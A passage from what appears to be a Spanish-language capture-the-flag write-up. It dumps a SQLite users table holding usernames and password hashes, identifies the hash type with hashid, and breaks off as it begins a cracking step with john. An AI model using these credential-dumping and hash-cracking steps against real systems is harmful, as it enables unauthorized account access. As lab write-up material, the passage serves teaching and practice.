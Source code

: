 ~~~ bash
sqlite3 nocturnal.db -table

SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite>
sqlite> .tables
uploads  users  
sqlite> select * from users;
+----+----------+----------------------------------+
| id | username |             password             |
+----+----------+----------------------------------+
| 1  | admin    | d725aeba143f575736b07e045d8ceebb |
| 2  | amanda   | df8b20aa0c935023f99ea58358fb63c4 |
| 4  | tobias   | 55c82b1ccd55ab219b3b109b07d5061d |
| 8  | andrew   | 32250170a0dca92d53ec9624f336ca24 |
+----+----------+----------------------------------+
~~~

Vemos una tabla `users`, y dentro de ella vemos el registro de usuarios, con datos como su `username` y su contraseña en formato `hash`. 

Como ya sabemos que `tobias` es un usuario válido en el sistema, usaremos su hash. Pero primeramente identificaremos el algoritmo

~~~ bash
hashid 55c82b1ccd55ab219b3b109b07d5061d                                
Analyzing '55c82b1ccd55ab219b3b109b07d5061d'
[+] MD2 
[+] MD5 
[+] MD4 
[+] Double MD5 
[+] LM 
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 
[+] Skype 
[+] Snefru-128 
[+] NTLM 
[+] Domain Cached Credentials 
[+] Domain Cached Credentials 2 
[+] DNSSEC(NSEC3) 
[+] RAdmin v2.x 
~~~


## Hash Cracking

Guardaremos el hash en un archivo y lo intentaremos crackear con `john`, debemos especificar el formato para que `john` pueda crackearlo
